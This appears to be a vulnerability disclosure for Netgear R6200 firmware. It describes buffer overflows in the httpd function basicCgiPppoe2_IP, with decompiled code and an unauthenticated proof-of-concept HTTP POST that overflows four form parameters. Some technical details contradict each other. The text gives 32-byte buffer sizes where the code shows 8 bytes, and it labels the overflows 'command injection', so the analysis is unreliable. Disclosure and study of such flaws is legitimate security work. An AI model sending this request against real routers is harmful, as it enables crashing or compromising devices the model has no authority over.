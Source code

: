 # Buffer Overflow Vulnerability in `basicCgiPppoe2_IP`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6200 Router                                         |
| Firmware Version     | V1.0.1.58_1.0.44                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`basicCgiPppoe2_IP`) (multiple vulnerable buffers: `v10`, `v7`, `v8`, `v9`, `v11`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameters `tempIP`, `endIP4`, `Protocol`, `policyIndex` |

2. Exploitation Path

```c
int __fastcall basicCgiPppoe2_IP(char *a1, int a2)
{
  char *v4; // $v0
  int v5; // $v0
  char v7[8]; // [sp+18h] [-138h] BYREF
  char v8[8]; // [sp+20h] [-130h] BYREF
  char v9[8]; // [sp+28h] [-128h] BYREF
  char v10[32]; // [sp+30h] [-120h] BYREF
  char v11[256]; // [sp+50h] [-100h] BYREF

  memset(v10, 0, sizeof(v10));
  memset(v11, 0, sizeof(v11));
  v7[0] = 0;
  v8[0] = 0;
  v7[1] = 0;
  v7[2] = 0;
  v7[3] = 0;
  v7[4] = 0;
  v7[5] = 0;
  v7[6] = 0;
  v7[7] = 0;
  v8[1] = 0;
  v8[2] = 0;
  v8[3] = 0;
  v8[4] = 0;
  v8[5] = 0;
  v8[6] = 0;
  v8[7] = 0;
  websGetVar(a1, "tempIP", v10);
  strcpy(v11, v10);
  v4 = &v11[strlen(v11)];
  v4[1] = 0;
  *v4 = 45;
  websGetVar(a1, "endIP4", v7);
  strcat(v11, v7);
  websGetVar(a1, "Protocol", v8);
  strcat(v11, ",");
  strcat(v11, v8);
  websGetVar(a1, "policyIndex", v9);
  if ( v9[0] )
  {
    v5 = atoi(v9);
    sub_42AB90(v11, v5);
  }
  else
  {
    sub_42AB90(v11, 0);
  }
  sendPage2Client("BAS_basic.htm", a2);
  return 0;
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: Multiple buffer overflow vulnerabilities are present in the `basicCgiPppoe2_IP` function:
   - At line 29, `websGetVar(a1, "tempIP", v10)` receives input into the destination buffer `v10`, which has a size of 32 bytes. Although `websGetVar` enforces a 255-byte length limit, no further validation is applied, resulting in a buffer overflow.
   - At line 34, `websGetVar(a1, "endIP4", v7)` receives input into the destination buffer `v7` (32 bytes). The 255-byte input limit is applied by `websGetVar`, but no additional validation exists, leading to a buffer overflow.
   - At line 36, `websGetVar(a1, "Protocol", v8)` receives input into the destination buffer `v8` (32 bytes). Similarly, the 255-byte limit is enforced, but no further validation is applied, resulting in a buffer overflow.
   - At line 39, `websGetVar(a1, "policyIndex", v9)` receives input into the destination buffer `v9` (32 bytes), with the same lack of additional validation, causing a buffer overflow.
   - At line 38, `strcat(v11, v8)` operates on the destination buffer `v11` (256 bytes). Following the concatenation at line 35 `strcat(v11, v7)` and line 37 `strcat(v11, ",")`, this sequence may lead to a buffer overflow due to insufficient bounds checking.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/basicCgiPppoe2_IP HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 1024
Connection: close

tempIP=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
&endIP4=BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
&Protocol=CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
&policyIndex=DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```